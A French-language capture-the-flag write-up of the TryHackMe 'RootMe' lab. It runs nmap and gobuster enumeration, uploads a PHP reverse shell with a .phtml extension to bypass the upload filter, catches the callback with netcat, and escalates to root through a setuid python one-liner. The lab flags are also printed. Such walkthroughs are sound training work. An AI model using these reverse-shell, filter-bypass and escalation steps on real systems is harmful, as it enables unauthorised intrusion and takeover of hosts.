



# RootMe #

## Task 1 Deploy the machine ##

**Deploy the machine**

Cliquez sur start Machine.   

## Task 2 Reconnaissance ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.126.80 rootme.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A rootme.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-04 13:29 CEST
Nmap scan report for rootme.thm (10.10.126.80)
Host is up (0.065s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/4%OT=22%CT=1%CU=33127%PV=Y%DS=2%DC=T%G=Y%TM=610A7A81
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.93 ms 10.9.0.1
2   51.94 ms rootme.thm (10.10.126.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.43 seconds

```

**Scan the machine, how many ports are open?**

D'après le scan Nmap on voit 2 services, donc 2 ports.   
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

Réponse : 2       

**What version of Apache is running?**
D'après les informations sur le scan, la version d'Apache est 2.4.29.   

Réponse : 2.4.29

**What service is running on port 22?**

D'arpès le scan le service sur le port 22 est SSH.   

Réponse : SSH    

**Find directories on the web server using the GoBuster tool.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u rootme.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
```

**What is the hidden directory?**

D'arpès gobuster le répertoire caché est \/panel      

# Task 3 Getting a shell #

**user.txt**



A partir de cette page peut envoyer un reverse shell en php.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-04 13:48:53 URL:https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

tim@kali:~/Bureau/tryhackme/write-up$ mv php-reverse-shell.php php-reverse-shell.phtml  
```



On télécharge un reverse shell en php.   
On configure la bonne IP.  
On renomme l'extension du fichier pour outrepasser la protection.   
On téléverse le reverse shell sur la machine de la victime.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```



On écoute sur le bon port pour se connecter au shell.     
On lance le shell à partir du reverse shell qui se trouve dans /uploads

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.126.80] 42406
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 11:59:32 up 33 min,  0 users,  load average: 0.00, 0.00, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ find / -name user.txt 2>/dev/null
/var/www/user.txt

$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}

```

Sur le shell on cherche le fichier user.txt    
On lit le contenu de notre fichier.   

La réponse est : THM{y0u_g0t_a_sh3ll}      

**root.txt**

```bash
$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

On trouve que python est setuid.    

$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```

On crée un shell avec les droits root avec python.    
On lit le flag dans root.txt    

La réponse est : THM{pr1v1l3g3_3sc4l4t10n}    